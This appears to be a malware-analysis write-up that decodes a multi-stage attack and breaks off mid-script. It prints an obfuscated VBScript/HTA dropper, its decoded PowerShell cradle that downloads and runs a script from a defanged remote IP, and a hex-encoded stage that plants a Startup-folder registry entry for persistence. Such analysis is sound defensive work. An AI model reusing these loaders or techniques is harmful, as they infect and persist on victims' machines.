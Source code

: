 ## Decoding PowerShell From Stage 02

```html
<script language="VBScript">
Function var_func()
HB = replace("pow(-_-)rsh(-_-)ll ","(-_-)","e")
HBB = "$@@@x = 'hxxp://135.148.74[.]241/PS1_B.txt';$@@@$$$=('{2}{0}{1}' -f'---------l---------888---------Nguyễn Văn Tí---------d---------'Nguyễn Văn TủnR777Nguyễn Văn TèolNguyễn Văn Tí666777('---------',''),'**********+++**********t**********r**********i**********n**********g**********'Nguyễn Văn TủnR777Nguyễn Văn TèolNguyễn Văn Tí666777('**********',''),'++++++++++D++++++++++888++++++++++w++++++++++n++++++++++'Nguyễn Văn TủnR777Nguyễn Văn TèolNguyễn Văn Tí666777('++++++++++',''));$@@@$$$$$$=('{2}{0}{1}' -f'---------777---------$$$---------666---------l---------'Nguyễn Văn TủnR777Nguyễn Văn TèolNguyễn Văn Tí666777('---------',''),'---------i---------777---------n---------t---------'Nguyễn Văn TủnR777Nguyễn Văn TèolNguyễn Văn Tí666777('---------',''),'---------N777---------t---------Nguyễn Văn TủnW---------'Nguyễn Văn TủnR777Nguyễn Văn TèolNguyễn Văn Tí666777('---------',''));$@@@$$$$$$$$$=('{2}{0}{1}' -f'------w-888------$$$------j------777------666------t  $------@@@------'Nguyễn Văn TủnR777Nguyễn Văn TèolNguyễn Văn Tí666777('------',''),'------$$$$$$------)Nguyễn Văn Tủn$@@@------$$$(------$@@@------x)------'Nguyễn Văn TủnR777Nguyễn Văn TèolNguyễn Văn Tí666777('------',''),'------I------`777------`X(------N777------'Nguyễn Văn TủnR777Nguyễn Văn TèolNguyễn Văn Tí666777('------',''));$@@@$$$$$$$$$$$$$$$ = ($@@@$$$$$$$$$ -J888in '')|InV888k777-777xNguyễn Văn Tèor777++++++i888N"
HBB = replace(HBB,"777","e")
HBB = replace(HBB,"888","o")
HBB = replace(HBB,"666","c")
HBB = replace(HBB,"+++","s")
HBB = replace(HBB,"$$$","B")
HBB = replace(HBB,"@@@","H")
HBB = replace(HBB,"Nguyễn Văn Tèo","P")
HBB = replace(HBB,"Nguyễn Văn Tí","a")
HBB = replace(HBB,"Nguyễn Văn Tủn",".")
set HBBB = GetObject(replace("new:F935DC22-1CF(-_-)-11D(-_-)-ADB9-(-_-)(-_-)C(-_-)4FD58A(-_-)B","(-_-)","0"))
Execute("HBBB.Run HB+HBB, 0, True")
End Function
var_func
self.close
</script>
```

```powershell
$Hx = 'hxxp://135.148.74[.]241/PS1_B.txt';
$HB=('DownloadString');
$HBB=('Net.WebClient');
$HBBB=('IeX(New-Object $HBB).$HB($Hx)');
$HBBBBB =($HBBB -Join '')|InVoke-exPressioN
```

## Decoding PS1_B.txt PowerShell

```powershell
$HHxHH = "C:\ProgramData\3814364655181379114711"
$HHHxHHH = "C:\ProgramData\3814364655181379114711"
$hexString = "5b 73 79 73 74 65 6d 2e 69 6f 2e 64 69 72 65 63 74 6f 72 79 5d 3a 3a 43 72 65 61 74 65 44 69 72 65 63 74 6f 72 79 28 24 48 48 78 48 48 29 0a 73 74 61 72 74 2d 73 6c 65 65 70 20 2d 73 20 35 0a 53 65 74 2d 49 74 65 6d 50 72 6f 70 65 72 74 79 20 2d 50 61 74 68 20 22 48 4b 43 55 3a 5c 53 6f 66 74 77 61 72 65 5c 4d 69 63 72 6f 73 6f 66 74 5c 57 69 6e 64 6f 77 73 5c 43 75 72 72 65 6e 74 56 65 72 73 69 6f 6e 5c 45 78 70 6c 6f 72 65 72 5c 55 73 65 72 20 53 68 65 6c 6c 20 46 6f 6c 64 65 72 73 22 20 2d 4e 61 6d 65 20 22 53 74 61 72 74 75 70 22 20 2d 56 61 6c 75 65 20 24 48 48 48 78 48 48 48 3b"
$asciiChars = $hexString -split ' ' |ForEach-Object {[char][byte]"0x$_"}
$asciiString = $asciiChars -join ''
iex $asciiString
start-sleep -s 3
$FFF = @'
```